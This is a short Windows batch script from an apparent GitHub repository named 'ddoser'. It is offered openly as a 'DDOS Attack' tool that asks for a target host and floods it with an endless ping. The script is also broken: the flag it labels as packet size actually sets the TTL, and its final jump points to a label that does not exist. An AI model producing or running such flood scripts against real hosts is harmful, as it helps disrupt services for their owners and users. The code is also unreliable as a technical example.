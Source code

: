 # ddoser
ddos attack Plus+ MAXX SPACE
=============================================
@echo off
mode 67,16
title DDOS Attack
color 0a
cls
echo.
echo ATTACK DDOS BY MAXXSPACE.BLOGSPOT.COM.EG
echo.
set /p x=Server-Target:
echo.
echo ?????????????????????????????????????????????????????????????????
ping %x%
echo ?????????????????????????????????????????????????????????????????
@ping.exe 127.0.0.1 -n 5 -w 1000 > nul
goto Next
:Next
echo.
echo.
echo.
set /p m=ip Host:
echo.
set /p n=Packet Size:
echo.
:DDOS
color 0c
echo Attacking Server %m%
ping %m% -i %n% -t >nul
goto DDO
